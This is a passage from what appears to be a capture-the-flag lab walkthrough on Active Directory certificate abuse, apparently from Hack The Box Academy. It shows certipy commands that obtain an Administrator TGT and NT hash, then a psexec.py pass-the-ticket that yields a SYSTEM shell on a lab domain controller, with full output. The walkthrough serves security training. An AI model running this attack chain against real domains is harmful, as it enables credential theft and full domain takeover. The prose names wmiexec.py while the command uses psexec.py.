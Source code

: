Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx 
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache psexec.py -k -no-pass LAB-DC.lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache psexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on LAB-DC.lab.local.....
[*] Found writable share ADMIN$
[*] Uploading file fDKSqGos.exe
[*] Opening SVCManager on LAB-DC.lab.local.....
[*] Creating service hKhQ on LAB-DC.lab.local.....
[*] Starting service hKhQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3772]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

When reading the contents of the file `C:\Users\molly\Desktop\flag.txt`, students will attain the flag `HTB{ESC4_MSPKI}`:
